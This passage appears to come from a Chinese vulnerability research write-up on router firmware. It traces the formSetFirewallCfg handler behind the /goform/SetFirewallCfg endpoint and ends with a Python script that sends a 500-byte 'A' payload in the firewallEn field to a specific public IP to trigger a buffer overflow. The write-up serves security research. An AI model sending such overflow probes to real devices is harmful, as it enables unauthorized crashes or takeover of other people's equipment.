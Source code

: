 接下来就是要验证下 formSetFirewallCfg 这个函数是否用户可控，是否有利用的条件。

查看下 formSetFirewallCfg 的引用

[![](assets/1706958084-2065ec5f2404f9a26630b81f1ac8a517.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706714208224-d790da26-dada-4509-b626-83b344f4ef97.png)

结合 web 交互的 http 流量包以及 websGetVar 函数名，可以猜到 formSetFirewallCfg 是 web 传参用的函数，openSchedWifi 就是构造 url 访问的接口名，一级目录名为 goform。

[![](assets/1706958084-9b3fecb95653c67069799cd6440f28be.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706605993344-db9473ca-e346-4af0-b09d-84560560afe4.png)

因此，我们构造请求，尝试下是否可以触发溢出

```plain
import requests

url = "http://47.98.137.248/goform/SetFirewallCfg"
header = {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": "password=rtp5gk"
}

payload = "A" * 500
data = {"firewallEn": payload}
response = requests.post(url, headers=header, data=data, timeout=5)
response = requests.post(url, headers=header, data=data, timeout=5)
print(response.text)
```
